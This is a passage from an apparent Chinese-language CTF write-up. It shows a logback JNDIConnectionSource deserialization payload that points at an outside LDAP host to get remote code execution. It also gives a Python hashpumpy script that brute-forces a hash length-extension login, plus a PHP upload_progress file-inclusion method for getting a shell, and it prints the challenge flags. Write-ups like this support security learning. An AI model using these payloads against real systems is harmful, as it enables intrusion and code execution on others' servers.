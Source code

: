 然后json发送

```
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://mu27062382.zicp.vip:18330/hhhhhh"}]
```

![](http://mo0n.top/images/ha1cyon/burp2.png)

虽然是报错返回500,但是其实是执行了的，在vps上可以看到效果

![](http://mo0n.top/images/ha1cyon/vps.png)

成功执行命令，RCE

flag

flag{ebcfc7fa-d9e7-4db1-9685-42684bc1aa76}

## ezinclude

第一层又双叒叕是一个hash拓展攻击，没有长度就爆破一下 

利用 `upload_progress`

```
import requests
import hashpumpy
import urllib



url='http://ha1cyon-ctf.fun:30004/'

for i in range(40):
    a,b=hashpumpy.hashpump('a3dabbc779f2fbf8b6f56113ca78a7f9','123444','1',i)

    req=requests.get(url+"name={}&pass={}".format(urllib.parse.quote(b),a))
    if 'username/password error' not in req.text:
        print(req.text,url+"name={}&pass={}".format(urllib.parse.quote(b),a))
        


```

跳到

`flflflflag.php`

可以文件包含

这里是用 `upload_progress`来写shell，然后包含

![](http://mo0n.top/images/ha1cyon/php-upload-progress.png)

然后包含/tmp/m0on getshell，好像flag又是在phpinfo里面，根目录的是假的


flag:

flag{6b671cf1-9558-47f6-9cd2-46ff8e32a3e9}

